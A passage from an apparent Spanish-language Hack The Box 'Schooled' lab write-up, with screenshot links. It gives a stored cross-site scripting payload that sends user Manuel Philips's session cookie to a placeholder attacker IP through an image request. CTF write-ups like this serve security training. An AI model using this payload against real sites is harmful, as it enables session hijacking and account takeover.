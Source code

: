 <img src="/assets/images/htb-writeup-schooled/img21.png">
</p>

Dentro de este vamos a ingresar el siguiente código malicioso que nos permitira robar la cookie de sesión del usuario **Manuel Philips**

```html
<script>document.write("<img src='http://[TU_IP]/imagen.jpg?cookie=" + document.cookie + "'>")</script>
```
<p align="center">
<img src="/assets/images/htb-writeup-schooled/img22.png">
</p>

Guardamos los cambios

<p align="center">
<img src="/assets/images/htb-writeup-schooled/img23.png">
</p>

